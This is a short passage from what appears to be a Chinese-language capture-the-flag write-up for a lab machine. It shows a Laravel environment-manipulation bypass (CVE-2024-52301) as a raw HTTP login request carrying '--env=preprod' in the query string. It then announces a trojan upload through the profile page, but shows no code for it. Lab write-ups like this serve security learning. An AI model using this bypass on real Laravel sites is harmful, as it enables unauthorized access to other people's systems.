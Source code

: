 ![](./images/image-5.png)

- [Environment manipulation via query string in Laravel](https://www.cybersecurity-help.cz/vdb/SB20241112127)

- [Nyamort/CVE-2024-52301](https://github.com/Nyamort/CVE-2024-52301)

只需要传入`GET`参数即可绕过

```
POST /login?--env=preprod HTTP/1.1
Host: environment.htb

_token=JNCSO9ry4XvsQhVOhorOAtASyt4bQrqZAvy9paUx&email=a%40a.c&password=123&remember=True
```

## File Upload

来到`profile`进行上传木马

